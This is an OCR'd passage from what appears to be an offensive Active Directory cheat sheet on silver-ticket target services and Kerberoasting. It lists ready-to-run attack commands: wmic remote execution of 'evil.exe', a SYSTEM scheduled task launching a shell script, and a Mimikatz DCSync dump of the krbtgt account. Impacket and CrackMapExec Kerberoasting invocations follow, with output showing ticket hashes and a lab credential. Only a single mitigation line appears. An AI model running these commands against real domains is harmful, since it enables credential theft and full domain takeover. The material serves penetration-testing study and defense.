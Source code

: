Interesting services to target with a silver ticket :

| Service Type                                | Service Silver Tickets | Attack |
|---------------------------------------------|------------------------|--------|
| WMI                                         | HOST + RPCSS           | `wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"`     |
| PowerShell Remoting                         | HTTP + wsman           | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| WinRM                                       | HTTP + wsman           | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| Scheduled Tasks                             | HOST                   | `schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"` |
| Windows File Share (CIFS)                   | CIFS                   | `dir \\dc01\c$` |
| LDAP operations including Mimikatz DCSync   | LDAP                   | `lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt` |
| Windows Remote Server Administration Tools  | RPCSS   + LDAP  + CIFS | /      |


Mitigations:
* Set the attribute "Account is Sensitive and Cannot be Delegated" to prevent lateral movement with the generated ticket.

### Kerberoasting

> "A service principal name (SPN) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. " - [MSDN](https://docs.microsoft.com/fr-fr/windows/desktop/AD/service-principal-names)

Any valid domain user can request a kerberos ticket (TGS) for any domain service. Once the ticket is received, password cracking can be done offline on the ticket to attempt to break the password for whatever user the service is running as.


* [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket Suite
  ```powershell
  $ GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

  Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

  ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
  --------------------  -------------  --------------------------------------------------------  -------------------  -------------------
  active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40  2018-12-03 17:11:11 

  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$424338c0a3c3af43[...]84fd2
  ```

* CrackMapExec Module
  ```powershell
  $ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --kerberoast output.txt
  LDAP        10.0.2.11       389    dc01           [*] Windows 10.0 Build 17763 x64 (name:dc01) (domain:lab.local) (signing:True) (SMBv1:False)
  LDAP        10.0.2.11       389    dc01           $krb5tgs$23$*john.doe$lab.local$MSSQLSvc/dc01.lab.local~1433*$efea32[...]49a5e82$b28fc61[...]f800f6dcd259ea1fca8f9
  ```
